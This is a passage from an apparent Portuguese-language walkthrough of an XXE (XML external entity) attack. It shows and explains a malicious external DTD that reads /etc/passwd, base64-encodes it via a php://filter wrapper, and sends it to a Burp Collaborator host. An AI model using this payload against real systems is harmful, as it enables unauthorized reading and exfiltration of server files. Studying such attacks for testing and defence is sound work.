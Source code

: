 Como vimos nas primeiras linhas do arquivo,  há um código em XML. Interpretando-o, ele cria um ENTITY chamado "**site**", onde o mesmo possui privilégios de SYSTEM, e ele será responsável por puxar o arquivo **xxe.xml** lcoalizado no meu ngrok. Vamos ver o que tem no arquivo **xxe.xml**!

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://ei0x2smhpfwv7t8uca6pzhwbm2sugj.burpcollaborator.net/%data;'>">
```

Como vemos, o arquivo possui dois ENTITYS. O primeiro, intitulado de **data**, será responsável por **puxar** o arquivo **/etc/passwd** e criptografá-lo em **BASE64**. Feito isso, há outro ENTITY chamado de **param1**. O param1 será responsável por puxar o ENTITY **data** (e esse mesmo ENTITY vai puxar o arquivo /etc/passwd) para dentro do meu BurpSuite Collaborator. Feito isso, o resultado do ENTITY **data** (o mesmo que vai criptografar em b64 o /etc/passwd) vai aparecer nas requisições capturadas pelo Collaborator! Vamos ver na prática!

![Untitled](Hijacking%206ac706b6cc614111a8c65575a1e87471/Untitled%205.png)
